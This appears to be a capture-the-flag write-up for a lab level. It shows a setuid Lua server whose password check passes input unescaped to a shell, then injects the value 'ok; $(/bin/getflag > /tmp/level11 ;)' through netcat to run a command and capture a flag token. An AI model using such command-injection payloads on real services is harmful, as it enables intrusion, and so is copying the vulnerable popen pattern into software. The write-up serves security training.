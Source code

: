 ##### 1 - Analyzing content

``ls -l``
>total 4
>-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

``cat level11.lua``
>#!/usr/bin/env lua
>local socket = require("socket")
>local server = assert(socket.bind("127.0.0.1", 5151))
>
>function hash(pass)
>  prog = io.popen("echo "..pass.." | sha1sum", "r")
>  data = prog:read("*all")
>  prog:close()
>
>  data = string.sub(data, 1, 40)
>
>  return data
>end
>
>
>while 1 do
>  local client = server:accept()
>  client:send("Password: ")
>  client:settimeout(60)
>  local l, err = client:receive()
>  if not err then
>      print("trying " .. l)
>      local h = hash(l)
>
>      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
>          client:send("Erf nope..\n");
>      else
>          client:send("Gz you dumb*\n")
>      end
>
>  end
>
>  client:close()
>end

----

##### 2 - Check if server is running

``lua level11.lua``
>lua: level11.lua:3: address already in use
>stack traceback:
>	[C]: in function 'assert'
>	level11.lua:3: in main chunk
>	[C]: ?

``netstat -tuln | grep 5151``
>tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN

##### 3 - Trying to decrypt

If we understood well the code, by passing the decrypted hash in password, server should insult us, but, trying anyway.

Decrypting the hash
``https://md5hashing.net/hash/sha1/f05d1d066fb246efe0c6f7d095f909a7a0cf34a0 :``
Result : NotSoEasy

``nc -v localhost 5151``
>Connection to localhost 5151 port [tcp/pcrd] succeeded!
>Password: -n **NotSoEasy**
>Gz you dumb*

He insults us as exepected, so we gonna kick his ass.

----

##### 4 - Kicking his ass

Look carrefully this line :
>  prog = io.popen("echo "..pass.." | sha1sum", "r")

The server will do ``echo **PASSWORD**`` then shasum on it.

``nc -v localhost 5151``
>Connection to localhost 5151 port [tcp/pcrd] succeeded!
>Password: **ok; $(/bin/getflag > /tmp/level11 ;)**
>Erf nope..
Our goal is to do : ``echo "ok"; /bin/getflag > /tmp/level11 ; shasum``

----

##### 5 - Getting the flag

``cat /tmp/level11``
>Check flag.Here is your token : **fa6v5ateaw21peobuub8ipe6s**
